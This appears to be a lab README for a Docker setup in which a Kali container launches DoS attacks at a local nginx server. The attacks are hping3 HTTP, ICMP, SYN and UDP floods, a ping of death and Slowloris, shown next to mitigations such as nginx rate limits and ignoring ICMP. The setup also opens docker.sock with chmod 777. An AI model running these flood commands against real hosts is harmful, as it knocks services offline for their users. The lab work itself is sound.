 # DOS attacks

Run ```docker-compose up -d``` to launch containers. \
A database with sample employees table will be created. Sample data files are loaded from the ```setup/mysql``` directory. 

#### TIG

You may need to fix permisson denied issue (**Error in plugin: Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock**)

``` docker exec l14-telegraf-1 chmod 777 /var/run/docker.sock```

## Attacker container

Build kali/linux image with required tools\
```docker build -t p14/kali:latest -f ./context/kali/Dockerfile .```

Run kali container
```docker run --network=l14_p14 --tty --interactive p14/kali:latest``` in our network (you can have different network name). 


## Attacks

All attacks are launched from the kali container mentioned above. 

### HTTP Flood
``` docker run --rm --network=l14_p14 --cpus=2 --memory=2GB p14/kali:latest hping3 --flood nginx```

![](docs/http_flood.png)

Spike is an unprotected behavior. \
No spikes occurred after adding limits to requests

```nginx
limit_req_zone $binary_remote_addr zone=one:10m rate=60r/m;
limit_conn_zone $binary_remote_addr zone=addr:10m;

limit_req zone=one;
limit_conn addr 10;
```

### ICMP Flood
```docker run --rm --network=l14_p14 --cpus=2 --memory=2GB p14/kali:latest hping3 -1 172.16.240.20```

Updating sysctl config ``` echo '1' > /proc/sys/net/ipv4/icmp_echo_ignore_all``` not possible using docker-compose. It requires launching container in --privileged mode

```shell
docker run --tty --interactive --rm --privileged --network=l14_p14 --ip=172.16.240.20 -v {ABS_PATH}/config/nginx/default.conf:/etc/nginx/conf.d/default.conf l12-app-all:latest
```

Then execute 
```shell
 echo '1' > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

Before applying ICMP ignoring hping3 result is: 

--- 172.16.240.20 hping statistic ---\
2 packets transmitted, 2 packets received, 0% packet loss\
round-trip min/avg/max = 0.7/1.3/2.0 ms\
HPING 172.16.240.20 (eth0 172.16.240.20): icmp mode set, 28 headers + 0 data bytes\
len=28 ip=172.16.240.20 ttl=64 id=19953 icmp_seq=0 rtt=2.0 ms\
len=28 ip=172.16.240.20 ttl=64 id=20674 icmp_seq=1 rtt=0.7 ms

After: 

--- 172.16.240.20 hping statistic ---\
2 packets transmitted, 0 packets received, 100% packet loss\
round-trip min/avg/max = 0.0/0.0/0.0 ms\


### Ping of death

Launch container with ping command
```
docker run --network=l14_p14 --cpus=2 --memory=2GB p14/kali:latest ping nginx -s 65500 -t 1 -n 1
```

Method of protection can be the same as for the ICMP Flood described above 

### Slowloris

Create php-fpm image with enabled pcntl extension. Launch slowloris.php script
```docker run --tty --interactive --rm --network=l14_p14 -v {ABS_PATH}/slowloris.php:/home/slowloris.php l14-php-fpm:latest php /home/slowloris.php get 520 172.16.240.20```

### SYN Flood

```shell
docker run --rm --network=l14_p14 --cpus=2 --memory=2GB p14/kali:latest hping3 --rand-source -S -q -n --flood nginx
```

![](docs/syn.png)

### UDP Flood

Launch UDP flood

```shell
docker run --rm --network=l14_p14 --cpus=2 --memory=2GB p14/kali:latest hping3 --rand-source --udp --flood nginx
```
check behavior adding load with siege

```shell
 siege -c 100 -t 5m 127.0.0.1
```

![](docs/udp.png)

CPU usage reached 80% in 5min